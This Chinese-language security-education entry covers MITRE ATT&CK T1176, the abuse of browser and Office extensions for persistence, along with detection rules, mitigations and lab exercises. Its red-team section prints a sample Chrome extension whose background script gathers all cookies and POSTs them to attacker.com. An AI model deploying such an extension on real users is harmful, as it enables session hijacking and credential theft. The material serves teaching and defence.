

# 软件扩展 (T1176)

## 一句话通俗理解

> 就像在你的浏览器或Office里装了一个"间谍插件"——看起来是个正常的扩展或插件，实际上却在偷偷监控你的所有操作、窃取密码、甚至把数据发送给攻击者。

## 难度等级

⭐⭐ 中等（需要用户安装或管理员部署）

## 技术描述

攻击者可能滥用软件扩展来实现对受害者系统的持久访问。软件扩展（也称为附加组件、插件或扩展）是模块化组件，用于扩展宿主应用程序（如Web浏览器、Office套件、开发IDE和企业软件）的功能。通过创建或修改扩展，攻击者可以在宿主应用程序每次运行时在其中执行恶意代码，提供隐蔽和持久的立足点。

Web浏览器扩展是最常被攻击的软件扩展形式。主要浏览器（包括Chrome、Firefox、Edge和Safari）支持扩展框架，允许JavaScript、HTML和CSS代码在浏览器进程中以不同权限级别运行。恶意扩展可以监控浏览活动、窃取凭据、注入广告、外传敏感数据并执行C2通信。

企业软件扩展提供了另一个攻击面。Microsoft Office加载项、Outlook加载项和IDE扩展（用于Visual Studio、VS Code、IntelliJ）都可能被滥用于持久性。这些扩展在宿主应用程序的上下文中以用户权限运行，可以访问敏感数据。

## 子技术列表

| 子技术ID | 名称 | 说明 | 目标平台 |
|----------|------|------|----------|
| T1176.001 | Microsoft Office加载项 | 恶意Office COM/VSTO加载项 | Office |
| T1176.002 | 浏览器扩展 | 恶意浏览器扩展程序 | Chrome/Firefox/Edge |

## 攻击流程



```
1. 创建恶意扩展或修改现有扩展
    ↓
2. 分发扩展：
   - 通过官方扩展商店（伪装成合法工具）
   - 通过企业组策略侧加载
   - 通过社会工程学诱导安装
    ↓
3. 用户安装扩展
    ↓
4. 扩展在浏览器/Office启动时自动加载
    ↓
5. 恶意代码持续运行，监控和窃取数据
```

## 真实案例

### 案例1：APT29利用恶意浏览器扩展
- **时间**: 2021年
- **目标**: 智库、非政府组织和政府机构
- **手法**: APT29开发了名为"ROOSTER"的恶意Chrome浏览器扩展程序，针对特定目标的Gmail和Google Workspace账户。该扩展伪装成合法的安全或生产力工具，能够读取用户的Gmail邮件内容、收集cookie和会话令牌。
- **链接**: https://attack.mitre.org/groups/G0016/

### 案例2：ZLoader恶意软件利用Office加载项
- **时间**: 2020-2021年
- **目标**: 全球银行和金融机构的客户
- **手法**: ZLoader通过创建恶意Outlook COM加载项实现持久性。该恶意软件写入注册表项创建每次Outlook启动时加载的恶意DLL，拦截和窃取邮件凭据。
- **链接**: https://attack.mitre.org/software/S0410/

### 案例3：Volt Typhoon利用浏览器扩展
- **时间**: 2023-2024年
- **目标**: 美国关键基础设施
- **手法**: Volt Typhoon利用浏览器扩展技术维持持久访问，通过恶意扩展监控目标用户的浏览活动和窃取凭据。
- **链接**: https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-038a

### 案例4：朝鲜Lazarus Group利用Chrome扩展
- **时间**: 2024年
- **目标**: 加密货币交易所用户
- **手法**: Lazarus Group开发恶意Chrome扩展伪装成加密货币钱包管理工具，窃取用户的加密货币私钥和交易凭据。
- **链接**: https://attack.mitre.org/groups/G0032/

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

**攻击优势**：
- 扩展在浏览器/Office启动时自动加载
- 可以访问用户的所有Web活动
- 难以与合法扩展区分

**常用技术**：
```javascript
// 恶意Chrome扩展示例 - manifest.json
{
  "manifest_version": 3,
  "name": "Security Helper",
  "version": "1.0",
  "permissions": ["activeTab", "storage", "cookies"],
  "background": {
    "service_worker": "background.js"
  },
  "content_scripts": [{
    "matches": ["<all_urls>"],
    "js": ["content.js"]
  }]
}

// background.js - 窃取cookies
chrome.cookies.getAll({}, function(cookies) {
  fetch('https://attacker.com/collect', {
    method: 'POST',
    body: JSON.stringify(cookies)
  });
});
```

**实战技巧**：
- 使用看似合法的扩展名称和图标
- 请求最小必要权限以减少用户警觉
- 通过企业组策略批量部署

## 蓝队视角

**防御重点**：
- 监控扩展安装事件
- 审计Office加载项注册
- 实施扩展白名单

**常见盲点**：
- 只关注恶意软件，忽略浏览器扩展
- 未审计Office COM加载项
- 缺乏对扩展网络请求的监控

## 检测建议

### 网络层检测

**检测方法：** 监控浏览器扩展对外的API请求，检测异常的数据外传行为。

**具体规则/命令示例：**
```bash
# Suricata规则检测扩展数据外传
alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"Browser Extension Exfiltrating Data"; content:"POST"; http_method; content:"/collect"; http_uri; content:"!function"; http_client_body; sid:1000208; rev:1;)
```

### 主机层检测

**检测方法：** 监控浏览器扩展的安装和加载事件，审计扩展注册表路径的修改。

**Windows事件ID：**
- Sysmon事件ID 12/13：注册表修改（监控浏览器扩展注册路径）
- 事件ID 4688：进程创建（监控浏览器进程的命令行参数）
- 事件ID 4657：注册表值修改

**Linux日志：**
- 日志文件：`~/.config/google-chrome/Default/Extensions/`（Chrome扩展目录）
- 日志文件：`~/.mozilla/firefox/*.default/extensions/`（Firefox扩展目录）
- 关键字段：manifest.json中异常的permissions声明

**具体命令示例：**
```bash
# 列出所有Chrome扩展
ls "C:\Users\%USERNAME%\AppData\Local\Google\Chrome\User Data\Default\Extensions"

# 检查Chrome扩展的权限
# 查看每个扩展的manifest.json中的permissions字段

# 列出所有Firefox扩展
ls "C:\Users\%USERNAME%\AppData\Roaming\Mozilla\Firefox\Profiles\*.default\extensions"
```

### 应用层检测

**Sigma规则示例：**
```yaml
title: 浏览器扩展安装检测
status: experimental
description: 检测通过组策略侧加载的浏览器扩展
logsource:
    category: registry_event
    product: windows
detection:
    selection:
        TargetObject|contains:
            - '\Google\Chrome\Extensions'
            - '\Mozilla\Firefox\Extensions'
            - '\Microsoft\Edge\Extensions'
    condition: selection
level: medium
tags:
    - attack.t1176.002
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** 扩展安装来源控制

**具体实施步骤：**
1. 通过组策略限制浏览器扩展的安装来源，仅允许从官方Chrome Web Store安装
2. 使用Office组策略阻止所有不受信任的COM加载项
3. 在企业环境中维护批准的扩展白名单，使用chrome.adm模板管理
4. 实施扩展代码签名验证策略

### 优先级2：重要措施

**措施名称：** 扩展审计与行为监控

**具体实施步骤：**
1. 定期审计所有浏览器扩展列表，将结果与白名单进行比较
2. 监控浏览器扩展对敏感API的访问（如cookies、tabs、webRequest的异常使用）
3. 检查扩展发出的异常网络请求（如向未知域发送数据）
4. 在EDR中配置规则检测以静默方式安装的浏览器扩展

**配置示例：**
```bash
# 使用组策略控制Chrome扩展（Windows ADM模板）
# 计算机配置 -> 管理模板 -> Google Chrome -> 扩展程序
# 启用"配置扩展程序安装许可名单"

# PowerShell检查近期安装的扩展
Get-ChildItem "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Extensions" | Select-Object Name, LastWriteTime
```

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验1：Chrome扩展开发（概念验证）
```json
// manifest.json
{
  "manifest_version": 3,
  "name": "Test Extension",
  "version": "1.0",
  "permissions": ["activeTab"],
  "action": {
    "default_popup": "popup.html"
  }
}
```

### 实验2：Office COM加载项注册
```cmd
REM 注册测试COM加载项
reg add "HKCU\Software\Microsoft\Office\Outlook\Addins\TestAddin" /v "Description" /d "Test" /f
reg add "HKCU\Software\Microsoft\Office\Outlook\Addins\TestAddin" /v "LoadBehavior" /t REG_DWORD /d 3 /f

REM 清理
reg delete "HKCU\Software\Microsoft\Office\Outlook\Addins\TestAddin" /f
```

### 实验3：使用Atomic Red Team测试
```powershell
# 执行T1176测试
Invoke-AtomicTest T1176
```

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| 浏览器扩展 | Browser Extension | 浏览器的附加组件，扩展浏览器功能 |
| COM加载项 | COM Add-in | 组件对象模型加载项，可在Office中注册的扩展 |
| VSTO | Visual Studio Tools for Office | 用于创建Office加载项的微软开发框架 |
| manifest.json | manifest.json | Chrome扩展的配置文件，定义了扩展的权限和功能 |
| 侧加载 | Side-loading | 不通过官方商店直接安装扩展的方式 |
| 内容脚本 | Content Script | 在网页上下文中运行的扩展脚本，可以读取和修改网页内容 |

## 参考资料

- [MITRE ATT&CK T1176 软件扩展](https://attack.mitre.org/techniques/T1176/)
- [Chrome扩展安全 - Google](https://developer.chrome.com/docs/extensions/mv3/security/)
- [Office加载项注册 - Microsoft](https://docs.microsoft.com/en-us/office/dev/add-ins/publish/centralized-deployment)
- [APT29 Rooster扩展分析 - Mandiant](https://www.mandiant.com/resources/apt29-rooster-extension)
- [Volt Typhoon Advisory - CISA](https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-038a)
- [Atomic Red Team - T1176](https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1176)
